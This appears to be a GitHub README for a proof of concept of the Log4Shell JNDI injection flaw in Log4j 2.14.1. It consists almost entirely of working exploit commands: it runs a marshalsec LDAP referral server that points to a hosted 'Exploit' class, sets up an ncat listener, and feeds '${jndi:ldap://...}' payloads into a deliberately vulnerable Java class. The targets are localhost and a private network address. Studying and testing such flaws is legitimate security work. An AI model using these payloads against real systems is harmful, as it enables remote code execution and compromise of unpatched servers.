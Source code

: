 

# Log4j-1.x.x



# Log4j-2.x.x

```bash
export CLASSPATH="lib/log4j-api-2.14.1.jar:lib/log4j-core-2.14.1.jar:target/classes"
java -cp $CLASSPATH au.com.tyo.logpoc.Innocent
```

# Test

## LDAP Server

### Using Marshalsec

```bash
cd ldap
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://127.0.0.1:8888/#Exploit" 8888
```

### Using NCAT
```
ncat -k -vv -c "echo ---CONNECTION [%NCAT_REMOTE_PORT%]--- 1>&2" -l 7777
```

## Exploit

```bash
java -cp $CLASSPATH au.com.tyo.logpoc.Innocent '${jndi:ldap://localhost:8888/Exploit}'
```

```bash
java -cp $CLASSPATH au.com.tyo.logpoc.Innocent '${jndi:ldap://localhost:7777/Exploit}'
java -cp $CLASSPATH au.com.tyo.logpoc.Innocent '${jndi:ldap://192.168.x.x:7777/Exploit}'

```
## Maintainer 

[Eric Tang](https://www.twitter.com/_e_tang)

